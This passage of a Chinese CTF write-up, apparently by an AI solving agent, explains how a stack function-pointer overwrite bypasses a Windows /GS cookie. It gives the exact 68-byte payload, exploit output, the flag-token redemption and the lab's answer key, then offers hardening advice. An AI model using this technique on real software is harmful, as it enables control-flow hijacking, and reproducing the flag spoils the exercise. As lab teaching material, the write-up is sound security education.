[0   .. 63]      64  b'A'*64             buf=[EBP-0x48]     填满缓冲区（gets 起点到函数指针之前）
[64  .. 67]       4  p32(0x00401000)     [EBP-8]            覆盖函数指针 ⇒ 0x4010dd 的 call dword [ebp-8] 跳进 get_flag
                                     ↑ payload 到此结束（68 字节，最后一个字节落在 [EBP-5]）
[68  .. 71]       4  （未被写入）        [EBP-4]  Cookie     ★ 一个字节都没动 —— 校验即使执行也会通过

prologue: [EBP-4] = __security_cookie ^ EBP     （未被触碰）
0x4010dd: call dword [ebp-8] → 已是 0x00401000  → get_flag → GetFlag() 打印 token → ExitProcess(0)
0x4010e7: call 0x40116a __security_check_cookie  ← 永不执行（进程已退出）
```

两个要点：

1. **Cookie 零字节未动**：payload 长度 68 只覆盖偏移 0–67，而 Cookie 槽是偏移 68–71。所以即使控制流真的返回到 `0x4010e7`，校验也会通过——但实际上根本回不来；
2. **`ExitProcess(0)` 让 epilogue 永不执行**：这是比"call 早于校验"更强的保证（步骤 3）。也就是说本题的成功**同时**成立在两重原因上：时序靠前 + 目标函数不返回。

```console
$ python3 .local/process/6-3-scripts/exp.py exploit
[*] CASE: EXPLOIT  A*64 + p32(get_flag@0x401000)
[*] payload (68 bytes): b'AAAA…AAAA\x00\x10@\x00'
---- banner ----
Buffer @ 0019FEE0
Fn ptr @ 0019FF20
Enter your name: ---- /banner ----
---- response ----

[+] Token (valid 10 min, one-time):
1792136241.eIq7ClRrHhJZJ2jneuUyaeTmaDBxEogN43bVISDm8kpIuIq6XJl4nxlb1AMPcOqACpFYXqQsDAJTDMOsUvfs2w

[*] Run on YOUR machine to get the flag:
    curl "http://<flag-server-ip>:<port>/flag?token=1792136241.eIq7ClRrHhJZJ2jneuUyaeTmaDBxEogN43bVISDm8kpIuIq6XJl4nxlb1AMPcOqACpFYXqQsDAJTDMOsUvfs2w"
```

一次性凭证形如 `<Unix 时间戳>.<base64url>`，有效期 10 分钟、单次可用。**注意本题不需要任何泄漏**：banner 里的 `Buffer @` / `Fn ptr @` 只是在步骤 4 里被用来验证偏移，payload 本身完全由静态分析得出（`0x401000` 与偏移 64 都是编译期常量）。

![正式利用：`A*64 + p32(0x401000)` 改写 `[EBP-8]` 的函数指针、Cookie 未动，取得一次性 token；真实命令回显的渲染稿（非终端实拍）](screenshots/06-利用成功-取得一次性token.png)

### 7. 兑换 flag：靶机时钟偏差导致 `token from the future`，等一会儿重试即成功（截图 07、08）

第一次利用（`logs/05-exploit-success.txt`）拿到 token `1792136227.…` 后立刻兑换，**被拒**（`logs/06-redeem-flag.txt`）：

```console
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:14643/flag?token=1792136227.…"
HTTP/1.1 403 Forbidden
Content-Type: text/plain; charset=utf-8
Date: Fri, 16 Oct 2026 07:36:53 GMT
Content-Length: 37

invalid token: token from the future
```

6 秒后再试一次（`logs/06b-redeem-flag-retry.txt`，`Date: … 07:36:59`）仍是同样的 403——**6 秒不够跨过时钟差**。原因是 **靶机侧时钟比 flag 兑换服务快约 10 秒**：token 前缀的时间戳由靶机生成，刚签发就来兑换，服务端看到的是一个"未来"的时间戳，在它自己的时钟走到那个时间点之前一律拒绝。

**这不是 token 失效**。重新做一次利用、拿到新的 token `1792136241.…`（时间戳更晚，反而更"超前"），间隔更久之后再兑换（07:37:22）即成功（`logs/08-redeem-flag2.txt`）：

```console
$ curl -sS --noproxy '*' -m 20 -i "http://172.17.0.13:14643/flag?token=1792136241.eIq7ClRrHhJZJ2jneuUyaeTmaDBxEogN43bVISDm8kpIuIq6XJl4nxlb1AMPcOqACpFYXqQsDAJTDMOsUvfs2w"
HTTP/1.1 200 OK
Date: Fri, 16 Oct 2026 07:37:22 GMT
Content-Length: 38
Content-Type: text/plain; charset=utf-8

vmc{DCcAOcRULl9I8ZuRQ8RH68FKZB7s0hTC}
```

`Content-Length: 38` = 37 字符 flag + 结尾换行。Lead 随后用**新取的一枚 token 独立兑换**，结果逐字一致（`.local/process/6-2-6-3-6-4-lead-verification.md` 4.5 节）。

> 这个坑值得单独记一笔：**"兑换失败"有两种完全不同的含义**——`token from the future` 是服务端与靶机的时钟差（等一会儿就行，token 并未被消耗），`token already used` 才是真的消耗掉了。稳妥做法是**签发后等 10–20 秒再兑换**，或直接重新做一次利用拿新 token；把两者混为一谈会误判为"利用没成功"。本题第一次利用的 `1792136227.…` 两次被拒后未被消耗，只是随 10 分钟有效期自然作废。

### 8. 兑换接口的失败对照：重放、坏格式、缺参、非法路径（截图 08）

`logs/09-controls-replay-badformat.txt` 覆盖了兑换服务的四种边界：

```console
=== A) replay same token ===
HTTP/1.1 403 Forbidden
Content-Length: 19

token already used

=== B) malformed token ===
HTTP/1.1 403 Forbidden
Content-Length: 36

invalid token: invalid token format

=== C) missing token ===
HTTP/1.1 400 Bad Request
Content-Length: 14

missing token
```

| 请求 | 结果 | 判断层 |
| --- | --- | --- |
| 同一 token 重放 | `403 token already used` | 使用状态校验（一次性生效） |
| 坏格式 token（`token=notatoken`） | `403 invalid token: invalid token format` | 格式校验（不符合 `<时间戳>.<base64url>` 直接拒） |
| 完全不传 token | `400 missing token` | 参数存在性校验 |
| 刚签发 3 秒的 token | `403 invalid token: token from the future` | 时间戳合理性校验（见步骤 7） |
| 访问 `/`（非 `/flag`） | `404 404 page not found` | 路由 |

也就是说，即使攻击者能控制靶机进程，拿到的也只是一枚**短时、单次、在服务端留下使用记录**的凭证。


### 9. 提交答案与平台判分（5/5 全对，截图 10、12、13）

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段），**每个 `answers` 字段的值必须是外层包了 questionID 的 JSON 字符串**：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6697' \
  -F 'answers={"questionID": 9027, "answer": "{\"answer\": [\"A\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9029, "answer": "{\"answer\": [\"D\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9031, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9033, "answer": "{\"answer\": [\"A\",\"B\",\"C\",\"D\"], \"num\": 4}"}' \
  -F 'answers={"questionID": 9047, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{DCcAOcRULl9I8ZuRQ8RH68FKZB7s0hTC}\"]}"}' \
  -F 'contestMode=0'
# {"code":0,"msg":"success"}
```

`num` 取**所选答案个数**（单选 1、多选选 4 个填 4、填空固定 3）。响应里 5 条记录 `answerTimes` 均为 **1**；填空题的 `answer` 被平台规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位自动补 `true`），与既往题目一致。两处属平台正常现象、不代表判错：顶层 `isCorrect:false`、各条 `scoreRate:0`。

判分以 `GET /api/student/get/answerHistory?sectionID=6697&contestMode=0` 为准（原文 `logs/11-answerHistory.json`）：

| order | questionID | 题号 | 题型 | isCorrect |
| --- | --- | --- | --- | --- |
| 1 | 9027 | C031-G3-S1 | 单选 | true |
| 2 | 9029 | C031-G3-S2 | 单选 | true |
| 3 | 9031 | C031-G3-S3 | 单选 | true |
| 4 | 9033 | C031-G3-M | 多选 | true |
| 5 | 9047 | C031-G3-F | Flag 填空 | true |

**5/5 全部 `isCorrect=true`。** 平台作答页同样 5 题都显示「作答正确」，第 5 题 flag 输入框内为最终 flag（截图 10）；`answerHistory` 的 5 条记录见截图 12，`submitAnswers` 的原始响应见截图 13。




![`submitAnswers` 原始响应：`code:0`、`msg:success`，5 条记录 `answerTimes:1`，填空题被规范化为 `["","true","vmc{...}"]`；`currentUser` 整段替换为 `<REDACTED: currentUser>` 后渲染；真实 JSON 回显的渲染稿（非终端实拍）](screenshots/13-平台提交-原始响应.png)

### 10. 失败尝试与踩坑清单（现象 / 原因 / 如何调整）

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | `A*68 + p32(0x401000)`（偏移写成 68） | 连接静默断开、无任何输出 | 偏移 68 把函数指针写到 saved EBP 槽，**同时**把 `[EBP-4]` 的 `/GS` Cookie 覆盖成 `\x00\x10@\x00` ⇒ `__security_check_cookie` 失败 ⇒ `__report_gsfailure`（`0xC0000409`） | 函数指针写在偏移 **64**（`[EBP-8]`），payload 总长 68、只写到 `[EBP-5]`，避开 Cookie |
| 2 | `A*64 + p32(0x41414141)` | 连接静默断开、无输出 | 函数指针被改成未映射地址 ⇒ `call dword [ebp-8]` 触发访问违例 | 函数指针填真实目标 `0x00401000`（`get_flag`） |
| 3 | `A*72`（写满 `sub esp,0x48`） | 连接静默断开、无输出 | 函数指针与 Cookie **一起**被破坏，崩在函数指针调用处；**这一条不能证明 `/GS` 生效** | 补第 ④ 条严格对照 `cookieonly`：函数指针合法（打印出 `No winner.`）+ 只坏 Cookie ⇒ 校验失败、拿不到 token，才真正证明 `/GS` 生效 |
| 4 | 第一次 token 兑换 | `403 invalid token: token from the future` | 靶机时钟比 flag 兑换服务快约 10 秒，token 前缀时间戳"超前" | **等待约 15 秒后用同一枚 token 重试**即可（token 未被消耗）；要区分它与 `token already used` |
| 5 | 用 `objdump --start-address=0x401020` 找"打印 No winner. 的函数" | 输出把 `0x401020` 标成 `<get_flag>`，一度误判 `get_flag` 是打印 `"No winner."` 的薄包装 | Apple `llvm-objdump` 对裁剪 PE 的符号标注有瑕疵（`.text` 内所有地址都归到 `get_flag+NNN`） | 用 `--start-address=0x401000` **完整**反汇编并解析导入表，确认 `get_flag` 是 `call [0x416130]` → `GetFlag()` → `ExitProcess(0)` 的 thunk |
| 6 | 问答脚本首轮全部 401 | 拿不到任何回答 | 原 `qa.py` 的"重新登录"用**每次新建的 opener**，cookie 没被保留 | 改为单个 opener + `CookieJar` 复用，统一去掉 `.env` 里的单引号 |
| 7 | QA 页面截图脚本 `waitForSelector('#hist-toggle')` 超时 | 截图脚本反复超时 | ①该页 `waitUntil:'networkidle'` 不收敛；②三个 Agent 共用一个问答账号，页面重新登录会顶掉彼此的 session；③历史列表变长后逐条点击易超时 | 改 `domcontentloaded` + 显式 `waitForSelector`；改为脚本内**自己先重新登录再立刻截图**；用历史面板**搜索**把候选从 N 条缩到 1 条 |
| 8 | 会话指纹精确匹配在 Q1/Q3/Q6 失败 | 回答正文的锚点片段不命中 | 页面对 Markdown 做渲染（`###`、`**` 被吃掉），归一化片段不总能逐字命中 | 判据改为"**问题正文 100% 命中 + 历史搜索唯一命中（`hist_hits=1`）**"，并用 `/api/chat/history` 原文逐字节交叉验证（6/6 `q_match`、`a_match` 均 True） |

### 11. 教学问答：`/GS` 重排、校验时序、结构体排列、加固与检测（截图 14×6、15）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 **6 个问题**，每题新开会话（会话号 5610 / 5611 / 5612 / 5614 / 5616 / 5618，间隔 ≥ 12 秒），问答原文另存 `.local/process/6-3-qa-transcript.json`。

会话真实性做了指纹核对：先用 `GET /api/chat/history?conversation_id=<id>` 取回原文，再在浏览器里用**问题首 18 字**做历史面板搜索（每条都只命中 1 条），点击后与主区域文本比对；`convs-verified.json` 显示 6 条会话的 q/a 与平台 API 原文**逐字节相同**。

**教学模型的输出只作思路参考，其中 Q2 / Q3 / Q6 存在明确错误，下表如实标注：**

| # | conversation_id | 问题主题 | 回答要点与准确性核对 | 截图 |
| --- | --- | --- | --- | --- |
| Q1 | 5610 | `/GS` 变量重排的启发式规则与实际影响的槽位 | 主干正确（数组型局部变量下移到低地址、非数组变量靠近 saved EBP 与 Cookie、Cookie 位于 saved EBP 之前），与本题 main 的实测布局一致。但**没有给出任何精确偏移**（未落到 `[EBP-0x48]` / `[EBP-8]` / `[EBP-4]` 这类槽位），后半段"破坏栈布局可预测性"的表述偏泛，属**笼统但不算错** | `14-AI问答-Q1-conv5610.png` |
| Q2 | 5611 | 函数指针劫持为何绕过 Cookie 校验（校验点位置 + 覆盖范围两角度） | **口径错误**：模型把"绕过校验"混同为"**提前覆盖了 Cookie**"（原文："攻击者可以通过在缓冲区溢出时修改函数指针变量，从而在函数 epilogue 校验之前覆盖了 Cookie。因此，当执行 epilogue 校验时，Cookie 的值已经被覆盖，校验失败"）。这与本题实际机制**正好相反**——本题 `payload` 只写到 `[EBP-5]`，**Cookie 一个字节都没动**；绕过的原因是"校验点根本不会被执行"（`0x4010dd` 早于 `0x4010e7`，且 `get_flag` 内部 `ExitProcess(0)`）。正确口径见步骤 2、3、6 与选择题 9029 | `14-AI问答-Q2-conv5611.png` |
| Q3 | 5612 | C 标准对结构体成员排列的规定、不可重排的原因与危害 | **口径错误**：模型称"标准对成员排列的规定相对宽松""编译器**首先按照成员的大小**进行排列，通常按从左到右的顺序……但可能会根据对齐要求进行调整"。C 标准实际要求**成员按声明顺序排列**（后声明成员地址不低于先声明者），实现**只能插入对齐填充、不能重排成员**。模型对"不可重排的原因（二进制接口/`offsetof`/序列化）"与危害的列举则是正确的 | `14-AI问答-Q3-conv5612.png` |
| Q4 | 5614 | 编译层 / 代码层加固（`/guard:cf`、`/DYNAMICBASE`、`/NXCOMPAT`、安全函数、`std::span`） | `DYNAMICBASE` / `NXCOMPAT` / 安全函数 / `std::span` / 避免在栈上放大数组这些要点方向正确；`/guard:cf` 的描述含糊（说成"防止缓冲区溢出漏洞、确保**函数调用返回路径**上的函数指针被正确初始化"），未点出 CFG 的真实作用（**间接调用目标白名单校验**）。另有一处已被问句本身带偏的表述："把函数指针调用放到返回路径上"——本题恰恰证明**在返回路径上放间接调用**（`call [ebp-8]` 位于 `ret` 之前）是危险写法，正确建议应是"避免用可被栈溢出覆盖的**局部函数指针**做间接调用" | `14-AI问答-Q4-conv5614.png` |
| Q5 | 5616 | 生产环境检测与应急排查（`__report_gsfailure`、`0xC0000409`、CFG、SafeSEH、ETW） | 排查手段清单（崩溃转储 + WinDbg/DebugDiag、CFG 违规、SafeSEH、ETW/PerfView、审计日志）方向正确，是本文"检测与应急排查"一节的参考来源之一；但把 `__report_gsfailure` 说成"检测**函数指针**非法使用的检查函数"不准确——它是 `/GS` Cookie 校验失败时的统一报告函数，与"函数指针非法"没有必然关系（本题 ④ 就是它被 Cookie 校验触发，而函数指针完全合法） | `14-AI问答-Q5-conv5616.png` |
| Q6 | 5618 | 栈帧 Cookie 与全局 `__security_cookie`、EBP 的关系及 `/GS` 剩余价值 | **口径错误**：模型把栈帧 Cookie 说成"全局 `__security_cookie` 在每个线程的栈帧创建时被**复制**到栈帧中""如果与全局 `__security_cookie` 不一致则检测到篡改"。实际是 `stored = __security_cookie XOR EBP`（本题 `0x401046` 读全局、`0x40104b` 异或 EBP、`0x40104d` 写回 `[EBP-4]`），并不是副本；也正因如此"同时拿到全局 cookie 与 EBP"才能真正伪造（这是同系列 6-4 的链路）。模型对该前提的**结论**（拿到两者后 `/GS` 价值大幅下降）方向正确，但**机理描述错误** | `14-AI问答-Q6-conv5618.png` |

> 口径说明：以上判读全部来自本机反汇编与靶机实测（步骤 2、3、5、6），**Q2 / Q3 / Q6 的结论不作为本题依据**，Q1 / Q4 / Q5 只取其中与实测一致的部分。三条错误口径已写进原始记录，此处照实复述，不照抄。













### 12. 截图真实性与脱敏说明

`6-3/screenshots/` 共 **20 张 PNG，无其他文件**（渲染源 HTML 放在 `.local/process/6-3-scripts/render/`，日志与脚本在 `.local/process/6-3-scripts/`，均不入库）。按取证方式分两类，**图注与正文均如实区分**：

| 文件 | 内容 | 真实性 |
| --- | --- | --- |
| `01` | 靶机 banner：`Buffer @ 0019FEE0` / `Fn ptr @ 0019FF20`，相差 0x40 | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） |
| `02` | 失败对照①：偏移 68 覆盖 Cookie ⇒ 静默断开 | 同上 |
| `03` | 失败对照②：函数指针指向未映射地址 ⇒ 静默断开 | 同上 |
| `04` | 失败对照③：`A*72` 双重破坏 ⇒ 崩在调用处 | 同上 |
| `05` | 失败对照④：只坏 Cookie、函数指针合法 ⇒ 先 `No winner.` 再终止（**`/GS` 生效的严格证据**） | 同上 |
| `06` | 正式利用：`A*64 + p32(0x401000)` ⇒ 一次性 token | 同上 |
| `07` | 兑换成功：`200 OK` + `vmc{...}` | 同上 |
| `08` | 兑换失败对照：重放 / 坏格式 / 缺参 / `token from the future` | 同上 |
| `09` | 静态确认：PE 头、导出/导入表、`main` 与薄包装的关键指令、偏移计算 | 同上 |
| `10` | VMC 作答页：5 题全部「作答正确」+ 已提交 flag | **真实页面截图**（无头 Chrome + playwright-core 驱动系统 Chrome，登录态） |
| `11` | VMC「我的实例」：`C031-G3-F`（`s-149897`）`running`、端口映射 `+2` | **真实页面截图**（同上） |
| `12` | `answerHistory` 5 条 `isCorrect=true` | 渲染稿（**已脱敏**：`currentUser` 整段删除） |
| `13` | `submitAnswers` 原始响应 | 渲染稿（**已脱敏**：`currentUser` 整段替换为 `<REDACTED: currentUser>`） |
| `14`（6 张） | 教学问答 Q1–Q6 会话，逐条截图 | **真实页面截图** |
| `15` | 教学问答本题 6 条会话历史面板拼图（3×2） | **真实页面截图拼接** |

**为什么终端类是渲染稿**：pwn 靶机 `172.17.29.251:9999` 是**裸 TCP 服务、不是 HTTP**，无法像网页那样实拍；本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`）。因此 `01`–`09`、`12`、`13` 按 shared-ops 的做法，把**真实命令/回显与原始日志输出逐字复制**渲染成黑底白字 HTML 再截图，**每张图顶部都标注「真实命令回显的渲染稿（非终端实拍）」**，未冒充终端实拍。

**脱敏范围（本批次坐标由解题 Agent 按各自 viewport 实测，未照抄 5-x/6-1 的坐标）**：

| 图 | 实际尺寸 | 目标矩形（device px） | 填充背景色 | ink 判据 | 脚本 |
| --- | --- | --- | --- | --- | --- |
| `10`、`11`（VMC 顶栏账号区） | 2880×4800（viewport 1280×2400、dSF=2） | `(2600, 55) - (2790, 122)` | `rgb(114,177,239)` | 1263 → 931 | `.local/process/6-3-scripts/mask_vmc_header.py` |
| `14-*`、`15`（问答页账号胶囊） | 2560 宽（viewport 1280×1500、dSF=2） | `(1770, 20) - (2160, 135)` | `rgb(255,252,247)` | 3516 → 1342 | `.local/process/6-3-scripts/mask_qa_header.py` |

ink 判据 = 与背景色曼哈顿距离 > 60 的像素数；涂白后残留的 ink 是后写入的白色「账号已脱敏」标签本身。两个脚本都只重绘上述矩形、不动页面其余内容，可追溯、可回退（重新运行 `vmc_shots.mjs` / `qa_shots.mjs` 从平台重截即可）；`mask_vmc_header.py --probe` 先用最顶部 3% 像素测出顶栏底色，再对右侧文字簇聚类定位目标矩形，`--crop (2350,20,2880,160)` 目视复验确认左侧 `+ / 铃铛 / 文A` 三个图标与右侧滚动条未被破坏；`mask_qa_header.py --crop (1700,0,2260,160)` 复验确认昵称与学号整体被覆盖、「帮助/退出」按钮完好。

> **顶栏脱敏的核对结论（回应 Lead 的交叉复核质疑）**：Lead 曾根据同批 6-2 的 DOM 双证（6-2 顶栏最右元素文本为通用占位「用户」）以及两题涂白框位置相近，怀疑 6-3 的 `10`/`11` 顶栏涂白处原本也是「用户」占位、涂白属冗余。解题 Agent 做了"**涂白前证据 + DOM 实证**"双路复核，结论是：**6-3 这两张图的顶栏确实渲染了账号昵称，不是「用户」占位**，涂白必要。
>
> - 涂白前证据：`render/probe-07-header.png`（15:39 生成，**早于** 15:42 的涂白操作）与另取的两张未涂白裁剪（`VERIFY-10-answer-header-unmasked-scratch.png`、`VERIFY-11-vm-header-unmasked-scratch.png`）中，顶栏最右文字肉眼可辨为昵称；
> - DOM 实证（`render/VERIFY-vmc-header-dom.txt`）：顶栏账号区元素 `span.el-dropdown-link.user-name.user-info.el-tooltip__trigger` 的 `innerText` 为昵称，且页面中**不存在**文本恰为「用户」的元素；学号只出现在隐藏的 `el-dropdown__popper`（`display:none` 的下拉面板）里，不在顶栏可见文本中（因此对隐藏下拉占位的那部分覆盖属**防御性/冗余脱敏**，不是"发现了个人信息"）；
> - 与 6-2 差异的原因：6-3 的三张 VMC 截图都在页面加载完成、账号区已渲染后拍摄（`networkidle` 之后再等 4 秒），顶栏显示昵称；6-2 拍摄时账号信息尚未渲染完成，最右元素还是通用占位「用户」。两批次涂白框位置相近只是**巧合重叠**，覆盖的底层内容不同。

**JSON 渲染的脱敏**：任何渲染成图片的 JSON 都先剔除 `currentUser`——`13` 用 `render_term.py` 的 `redact()` 把顶层 `currentUser` 整段替换，`12` 用 `logs/15-answerHistory-redacted.json`（正则整段删除 `currentUser` 对象）渲染。两份 HTML 均做过关键字检查，确认昵称、学号、登录来源 IP、班级等信息全部不出现。本文正文也不记录任何凭据、cookie 或个人信息。

### 13. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| Pwn 靶机 `172.17.29.251:9999` | **无文件落地** | 全部交互都是通过 socket 发送一次 payload 触发 `get_flag()`，未上传文件、未写磁盘、未留后门；命中分支最终 `ExitProcess(0)`，崩溃分支由服务端回收 |
| 一次性 token | 本次共取得 **2 枚**并可核（`logs/05-exploit-success.txt` 的 `1792136227.…`、`logs/07-exploit-token2.txt` 的 `1792136241.…`），另有 Lead 为独立交叉验证新取的 token | `1792136241.…` 兑换成功后即失效，重放对照返回 403 `token already used`；`1792136227.…` 两次兑换都因时钟差被判 `token from the future`、未被消耗，10 分钟有效期过后自然作废 |
| 本机 | `6-3/screenshots/`（20 张 PNG，无其它文件）；`.local/process/6-3-scripts/`（`exp.py`、`pe_info.py`、`qa.py`、`mask_*.py`、`render_term.py`、`vmc_shots.mjs`、`qa_shots*.mjs`、`files/challenge.exe`、`paper.json`、`render/` 渲染源 HTML 与探测/复验裁剪图、`logs/` 原始日志）；`.local/process/6-3-{ctf-process.md,qa-transcript.json,answers-rationale.md}` | `.local/` 与 `/tmp/shot/` 均不入库；会话 cookie 副本已在收尾时删除 |
| 实例 | envID `1201`（`C031-G3-F`，容器 `s-149897`）交付时仍在 `Running`，未销毁 | 平台 `saveTime` 约 3 小时，到期由平台回收；如需善后可手动停止 |

## Flag

```text
vmc{DCcAOcRULl9I8ZuRQ8RH68FKZB7s0hTC}
```

该 flag 由一次性 token 兑换所得（`HTTP/1.1 200`，`Content-Length: 38` = 37 字符 flag + 结尾换行），与平台作答页第 5 题输入框内的值、`answerHistory` 中第 5 条（questionID 9047）判定为正确的提交值三者逐字一致；Lead 另用**新取的一枚 token 独立兑换**，结果逐字相同。

## 总结与心得

### 漏洞原理

1. **根因是"无界读入 + 在安全校验之前使用可控指针"**：`main` 用 `gets(buf=[EBP-0x48])`（`0x406605`）往 72 字节的局部区做**无长度检查**的读入（CWE-121，栈缓冲区溢出），随后在 `0x4010dd` 执行 `call dword [ebp-8]`——**间接调用一个存放在自己栈帧里的函数指针**。攻击者只要能写这个槽位，就等于获得了控制流。
2. **`/GS` 机制本身没问题，问题是校验点与使用点的时序**：`/GS` 的 Cookie 校验位于 **epilogue**（`0x4010e2` 取回 `[EBP-4]`、`0x4010e5` 异或 EBP 还原、`0x4010e7` `call __security_check_cookie`），它的保护对象是"`ret` 之前确认返回地址没被改写"。而本题的关键调用在 **`0x4010dd`**，比校验点早 10 个字节；控制流一旦在 `0x4010dd` 被带走，`0x4010e7` 那一行就永远不会执行。
3. **`get_flag` 是导入 thunk，靠 `ExitProcess(0)` 把"永不执行"变成必然**：`get_flag@0x401000` 只做两件事——`call [0x416130]`（`getflag.dll!GetFlag` 打印一次性 token）与 `call [0x416008]`（`KERNEL32!ExitProcess(0)`）。它**不返回**，所以 `main` 的 epilogue 连到达的机会都没有。这比"call 早于校验"更强：不是"抢在校验前劫持"，而是"**校验所在的整段代码都不会被执行**"。
4. **偏移 64 与零字节未动的 Cookie 是本题能成功的算术条件**：缓冲区 `[EBP-0x48]`、函数指针 `[EBP-8]`（相差 `0x40 = 64`）、Cookie `[EBP-4]`（相差 `0x44 = 68`）。payload `b"A"*64 + p32(0x00401000)` 共 68 字节，最后一个字节落在 `[EBP-5]`，**`[EBP-4]` 的 Cookie 四个字节一个都没被碰**。所以本题的利用是"**连 Cookie 值都不需要知道**"的——不需要泄漏、不需要回填。这也是它比同系列 G1（泄漏 + 回填）与 G2（格式串泄漏 + 回填）更"轻"的地方。
5. **薄包装 `0x401020` 是 `/GS` 启发式豁免的干净样本**：它有完整的 `push ebp / mov ebp,esp` 帧、却**没有** Cookie 初始化、也**没有** `__security_check_cookie`（6 条指令、`pop ebp; ret` 直接返回）。`/GS` 只对"含有会被攻击者利用的缓冲区"的函数插 Cookie；这一点让"默认函数指针指向一个不受保护的小函数"成为可能，也解释了为什么 `Fn ptr @ %p` 泄漏出来的地址指向 `0x401020` 这样一个"干净"的目标。
6. **对照实验把因果拆成了三层**：改写函数指针是**必要**条件（②：不改就跳不到 `get_flag`）；偏移必须精确到字节（①：差 4 字节就从"改指针"变成"改 saved EBP + 顺带毁 Cookie"）；`/GS` 确实在工作（④：函数指针合法、`No winner.` 正常打印，但 Cookie 被动过就必然失败）。而 ③（`A*72`）只是"双重破坏必崩"，**不能**用来证明 `/GS` 生效——把它与 ④ 混为一谈是这道题最容易犯的推理错误。

### 做题方法

- **先定"保护点"与"使用点"的先后，再动手写 payload**：`objdump -D` 按**地址范围**读 prologue 与 epilogue，把 `0x4010dd`（间接调用）与 `0x4010e7`（`__security_check_cookie`）两个地址并排看。地址一前一后，"要不要管 Cookie"这个问题的答案就出来了——本题是"不用管"。
- **偏移自己算，不靠总长猜**：`缓冲区 → 函数指针 = 0x48-0x08 = 64`、`缓冲区 → Cookie = 0x48-0x04 = 68`。两个数字只差 4，payload 长度是 68 还是 72 就是"成功"与"被 `/GS` 拦下"的分界。运行期用 banner 的 `Fn ptr - Buffer = 0x40` 反证一遍，静态与动态互相对账。
- **一定要做"严格版"的反证对照，并分清它证明什么**：本题的 ④（`A*64 + p32(0x401020) + "XXXX"`）是唯一能证明 `/GS` 生效的一条，因为它是"函数指针合法 + 只坏 Cookie"的**单变量**实验；③ 同时动了两个变量，只能证明"双破坏必崩"。**单变量对照**是把机制讲清楚的关键，不要用"它崩了"代替"它因为什么崩"。
- **读 PE 别信符号名，信地址**：该 PE 只有 `get_flag` 一个函数符号，`objdump` 会把 `.text` 内所有地址都标成 `<get_flag+0xNNN>`。改用 `--start-address=0x401000` 完整反汇编，并**解析导入表**，才能发现 `get_flag` 其实是个 `ExitProcess(0)` 的 thunk——这一步直接决定了原理表述是否准确。
- **没有 pwntools 也能完整验证**：Python 标准库 `socket` + `struct.pack("<I", …)` 足以收发 payload、抓 banner；PE 头/导出表/导入表解析用原生 `struct` 读写 `IMAGE_*` 结构即可，无需 pefile。
- **失败尝试同样要留痕并标注它的证明边界**：本题 4 条失败对照里，① ③ 是"静默断开"（进程被终止、块缓冲导致一行输出都没有），② 是访问违例，④ 是"打印了但拿不到 token"。把"防护拦住"（①④）与"利用失败"（②③）区分开，结论才完整。这也顺带解释了 `__report_gsfailure` 之前没有 flush 动作，所以 `/GS` 拦截是**静默**的。
- **平台提交有两个格式约束**：`answers` 字段必须外层包 `{"questionID":…,"answer":"<内层 JSON>"}`；`num` 取所选答案个数（单选 1、多选选 n 个填 n、填空固定 3，flag 放第 3 格）。判分只看 `answerHistory[].isCorrect`，顶层 `scoreRate` / `isCorrect` 不是判分依据。本题提交前先把选择题判定落盘（含哈希）再提交，5/5 一次通过。
- **对教学模型的回答保持复核**：本题 6 问里 Q2 / Q3 / Q6 三问有明确错误（**Q2** 把"绕过校验"说成"提前覆盖了 Cookie"，与本题"Cookie 零字节未动"刚好相反；**Q3** 把 C 标准的成员排列说成"按类型和大小、相对宽松"；**Q6** 把栈帧 Cookie 说成"全局 cookie 的副本"而不是 `cookie XOR EBP`）。教学问答适合梳理思路，**结论必须回到反汇编与靶机实测上验证**；本次 6 条会话还用"问题正文 100% 命中 + 历史搜索唯一命中"做了指纹核对，确认截图确实对应本题会话。

### 修复建议

- **代码级（本题真正的要害）：不要在栈上存放可被溢出的函数指针，更不要在安全校验之前用它做间接调用**。可选做法：把回调指针放到只读数据/全局变量并做完整性校验；用 `enum` + `switch` 分派代替函数指针；必须用间接调用时，借助 CFG（`/guard:cf`）对间接调用目标做白名单校验；把敏感调用移到校验之后（这个"移"只是补救，正确解法是不要让它可被覆盖）。
- **代码级：去掉无界读取**。把 `gets` 换成带长度上限的实现（`fgets(buf, sizeof buf, stdin)`，或"读入 + 长度校验 + 截断"），并排查所有把外部数据写进定长栈缓冲区的路径（`strcpy` / `sprintf` / `memcpy` 同样要算长度）。
- **编译期加固（按本题缺口逐项对应）**：
  - `/GS`（栈 Cookie）——本题**已开**，但被"校验点晚于使用点"绕过，说明加固要成套；
  - `/guard:cf`（CFG）——本题**未开**（`GUARD_CF=False`）。CFG 恰好能约束这种"改写函数指针后间接调用"的路径，是本题最对症的一项；
  - `/DYNAMICBASE`（ASLR）——本题**未开**，实测每次连接 `Buffer` / `Fn ptr` 地址恒定，补上后"静态地址写死"不再成立；
  - `/NXCOMPAT`（DEP）——本题**未开**，补上后"注入 shellcode 再跳"被堵死；
  - `/SAFESEH`、`/HIGHENTROPYVA` 与"排除不该有栈帧的薄包装被误当跳板"的代码审查，同属配套项。
- **不要把敏感能力做成"易达目标"**：`get_flag` 是导出函数、地址可直接写死（`0x401000`），命中即打印一次性凭证。凭证下发应校验调用来源与身份，敏感逻辑应放在独立进程/服务端并做权限校验，而不是仅靠一个可被跳转的本地函数。
- **运行期与架构层**：开启系统级 DEP/ASLR 与 CFG；服务以最小权限账户、低完整性级别运行；只对必要来源开放端口并做流量审计；对"打印栈/指针地址"的调试型输出（本题的 `Buffer @ %p`、`Fn ptr @ %p`）在发布版本中一律移除或改为服务端不敏感日志。
